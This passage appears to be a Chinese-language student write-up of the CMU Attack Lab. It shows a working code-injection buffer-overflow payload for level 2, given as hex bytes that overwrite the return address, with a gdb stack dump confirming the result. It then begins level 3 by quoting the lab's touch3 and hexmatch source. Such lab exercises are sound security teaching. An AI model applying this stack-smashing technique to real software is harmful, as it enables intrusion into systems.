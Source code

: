 在注入代码中实现修改变量val（将cookie赋给rdi即可）  并通过ret继续操控跳转方向（push ret)  (ret 是将栈顶值作为返回地址)

==先写.s文件，汇编后生成.o文件，再反汇编生成.d文件，.d文件中有我们需要的指令代码==

答案如下：  

```
48 c7 c7 fa 97 b9 59 	    /* mov    $0x59b997fa,%rdi  (attack code,adr:5561dc78) */ 
68 ec 17 40 00       	    /* pushq  $0x4017ec  */ 
c3                   	    /* retq           */ 
00 00 00                    /* 16bytes */ 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00                                  
78 dc 61 55 00 00 00 00     /* modify getbuf return adr ->5561dc78 */ 
```

修改后的栈区和返回地址如下：

```
(gdb) x/6gx $rsp
0x5561dc78:     0x6859b997fac7c748      0x000000c3004017ec
0x5561dc88:     0x0000000000000000      0x0000000000000000
0x5561dc98:     0x0000000000000000      0x000000005561dc78
(gdb) x/bx 0x5561dc78
0x5561dc78:     0x48
0x5561dc79:     0xc7
0x5561dc7a:     0xc7
0x5561dc7b:     0xfa
0x5561dc7c:     0x97
0x5561dc7d:     0xb9
```

==**注意到48 c7 c7 fa...是从低地址字节到高地址存放的，说明程序执行时，取指令是从低地址到高地址读取的。**==

#### level 3

```
1 /* Compare string to hex represention of unsigned value */
2 int hexmatch(unsigned val, char *sval)
3 {
4 	char cbuf[110];
5 	/* Make position of check string unpredictable */
6 	char *s = cbuf + random() % 100;
7 	sprintf(s, "%.8x", val);
8 	return strncmp(sval, s, 9) == 0;
9 }
10
11 void touch3(char *sval)
12 {
13 	vlevel = 3; /* Part of validation protocol */
14 	if (hexmatch(cookie, sval)) {
15 		printf("Touch3!: You called touch3(\"%s\")\n", sval);
16 		validate(3);
17 	} else {
18 		printf("Misfire: You called touch3(\"%s\")\n", sval);
19 		fail(3);
20 	}
21 	exit(0);
22 }
```

